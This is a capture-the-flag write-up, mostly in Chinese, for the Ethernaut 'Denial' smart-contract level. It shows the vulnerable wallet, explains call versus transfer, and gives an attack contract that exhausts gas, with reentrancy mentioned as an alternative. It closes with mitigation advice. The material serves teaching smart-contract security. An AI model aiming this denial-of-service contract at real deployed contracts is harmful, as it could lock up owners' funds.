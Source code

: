 # Denial

> This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.
>
> If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.

## 源码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import '@openzeppelin/contracts/math/SafeMath.sol';

contract Denial {

    using SafeMath for uint256;
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address payable public constant owner = address(0xA9E);
    uint timeLastWithdrawn;
    mapping(address => uint) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value:amountToSend}("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint) {
        return address(this).balance;
    }
}
```

## 攻击思路

1. transfer
  如果异常会转账失败，抛出异常(等价于require(send()))（合约地址转账）
  有gas限制，最大2300
  函数原型：

  ```solidity
  <address payable>.transfer(uint256 amount)
  ```

2. call
  如果异常会转账失败，仅会返回false，不会终止执行（调用合约的方法并转账）
  没有gas限制

  函数原型：

  ```solidity
  <address>.call(bytes memory) returns (bool, bytes memory)
  ```

call方法会将调用结果以true和false的形式返回，即使调用过程中有错误发生，也不会影响后续的代码。

所以只有让gas全部在call方法时全部消耗掉，无法运行后续代码。

或者进行重入攻击，转走合约中的所有本币。但是题目要求`whilst the contract still has funds`.就不能转走合约里全部的钱。

## 攻击流程

```solidity
contract Attack {

    Denial target;

    function beforeAll(address payable denial) public{
        target = Denial(denial);
        target.setWithdrawPartner(address(this));
    }

    receive() external payable {

        // 重入攻击
        //target.withdraw();

        // 消耗掉所有gas值
        assert(false);

        // 消耗掉所有gas值
        //while(true){}
    }
}
```

此处记录一种[特殊现象](https://rinkeby.etherscan.io/tx/0xdc5546f332b1e019bb29103f0b22402e3238ea4916a479144068bf7adc89a61c)。在[此处](https://ethereum.stackexchange.com/questions/107882/ethernaut-level-20-denial-probably-no-longer-solvable-why)得到解答是，assert在某些版本的solc中会被优化为revert，防止gas全部被消耗。

This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

*Note*: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
